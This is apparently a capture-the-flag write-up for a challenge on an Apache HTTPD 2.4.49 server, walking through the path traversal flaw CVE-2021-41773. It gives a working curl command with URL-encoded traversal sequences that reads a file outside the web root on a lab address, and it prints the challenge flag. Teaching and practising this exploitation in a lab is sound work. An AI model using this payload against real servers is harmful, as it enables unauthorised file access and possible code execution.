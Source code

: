 ![img](../../assets/banner.png)

<img src="../../assets/cyberhax.png" style="margin-left: 20px; zoom: 80%;" align=left />
<font size="10">Weird Character Behavior</font>

8<sup>th</sup> February 2024

​Prepared By: FROST8ytes

​Challenge Author(s): FROST8ytes

​Difficulty: <font color=green>Hard</font>

Flag: `Cyberhax{41w4y5_4pp1y_s3cur1ty_upd4t35}`

## Synopsis

The challenge involves viewing files shared on an HTTP server.

## Description

Hello, friend! I have decided to host the files that you were asking for on an HTTP server.

I decided to use ***Apache HTTPD 2.4.49*** to make my job easier.

I also left an easter egg called `flag.txt` at the `/` of the server. Let me know if you find it ;)

Flag example: `Cyberhax{3x4mp13_f14g_h3r3}`

Disclaimer: No bruteforce is needed.

## Skills Required

- Basic Google-ing skills
- Basic knowledge of CVEs

## Skills Learned

- Exploiting CVEs.
- Using URL encoded values.

## Application Overview

![img](./overview.png)

### Visiting the Website

We can see a short message for a friend. There is also a link to access files. Let's click it!

We are taken to `/public` directory with a list of files and directories. The files seem like a normal Rust project.

### Understanding Clues

The version for Apache HTTPD is bolded both in the challenge description and also the web page.

We find that the version is vulnerable to Path Traversal & Remote Code Execution (CVE-2021-41773).

We can also find an exploit example on [ExploitDB](https://www.exploit-db.com/exploits/50383).

The challenge description also mentions that `flag.txt` is located at `/`. Maybe we can traverse through the paths to reach the flag.

```sh
curl -s --path-as-is -d "echo Content-Type: text/plain;" "http://172.16.82.0:1020/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt"

```

The flag is returned in the response.